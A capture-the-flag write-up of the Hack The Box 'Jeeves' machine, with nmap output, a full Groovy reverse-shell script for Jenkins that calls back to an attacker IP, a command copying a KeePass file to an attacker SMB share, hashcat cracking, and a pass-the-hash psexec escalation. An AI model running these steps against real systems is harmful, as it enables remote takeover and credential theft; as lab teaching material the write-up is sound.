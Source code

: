 # HTB - Jeeves Writeup

## Reconnaissance
```bash
sudo nmap -Pn -p- -A -T4 10.129.234.197
```

**Results:**
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
```

## Exploitation
### Jenkins Access
- Discovered Jenkins instance at `http://10.129.234.197:50000/askjeeves`
- Created project with Groovy reverse shell script:
```groovy
String host="10.10.16.39";
int port=1234;
String cmd="cmd";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()) {
  while(pi.available()>0) so.write(pi.read());
  while(pe.available()>0) so.write(pe.read());
  while(si.available()>0) po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try { p.exitValue(); break; } 
  catch (Exception e) {}
};
p.destroy();
s.close();
```

### Initial Access
- Obtained reverse shell as `kohsuke` user
- Found KeePass database: `C:\Users\kohsuke\Documents\CEH.kdbx`
- Exfiltrated via SMB:
```cmd
copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.16.39\smb\
```

### KeePass Cracking
- Cracked database password with Hashcat:
```bash
hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt
```
**Password:** `moonshine1`

### Database Contents
```
administrator:S1TjAtJHKsugh9oC4VZl
NTLM HASH: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

### Privilege Escalation
- Used credentials with Impacket's psexec:
```bash
impacket-psexec administrator@10.129.234.197 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
- Obtained SYSTEM-level access

## Flags
### User Flag
```
7b0b********************************
```

### Root Flag
Located in Alternate Data Stream:
```cmd
powershell (Get-Content hm.txt -Stream root.txt)
```
**Root Flag:**  
```
afbc********************************
```
